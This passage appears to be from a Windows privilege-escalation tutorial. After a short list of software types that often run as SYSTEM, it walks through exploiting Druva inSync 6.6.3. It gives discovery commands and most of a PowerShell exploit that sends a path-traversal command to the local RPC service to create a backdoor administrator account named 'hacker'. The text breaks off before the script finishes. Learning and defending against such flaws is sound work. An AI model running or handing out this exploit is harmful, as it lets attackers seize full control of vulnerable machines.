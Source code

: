 ### 1. Remote Management Tools

Tools like VNC, TeamViewer, or remote administration software often run with SYSTEM privileges.

### 2. Backup Solutions

Backup software frequently runs with high privileges to access all files.

### 3. Database Software

MSSQL, MySQL, and others may run as SYSTEM or have misconfigured permissions.

### 4. Antivirus Software

Some antivirus products have had privilege escalation vulnerabilities.

### 5. Custom Enterprise Software

In-house or niche applications often have less security scrutiny.

## Case Study: Druva inSync 6.6.3

This is a detailed example of exploiting vulnerable software for privilege escalation.

### Vulnerability Details

Druva inSync 6.6.3 runs an RPC server on port 6064 with SYSTEM privileges (localhost only). The software is vulnerable to privilege escalation because:

1. It exposes an RPC procedure (number 5) that allows command execution
2. The server runs as SYSTEM, so commands inherit these privileges
3. An insufficient patch allowed path traversal to bypass command restrictions

### Exploitation Steps

1. **Identify the vulnerable service**:
   ```cmd
   wmic product get name,version,vendor | findstr "Druva"
   # Shows: Druva inSync 6.6.3
   
   # Check if the RPC server is running
   netstat -ano | findstr "6064"
   ```

2. **Create exploit script** (PowerShell):
   ```powershell
   $ErrorActionPreference = "Stop"
   
   # Command to execute - create admin user
   $cmd = "net user hacker Password123 /add & net localgroup administrators hacker /add"
   
   # Create socket and connect to the RPC server
   $s = New-Object System.Net.Sockets.Socket(
       [System.Net.Sockets.AddressFamily]::InterNetwork,
       [System.Net.Sockets.SocketType]::Stream,
       [System.Net.Sockets.ProtocolType]::Tcp
   )
   $s.Connect("127.0.0.1", 6064)
   
   # Prepare the RPC packets
   $header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
   $rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
   
   # Command using path traversal to bypass restrictions
   $command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
   ```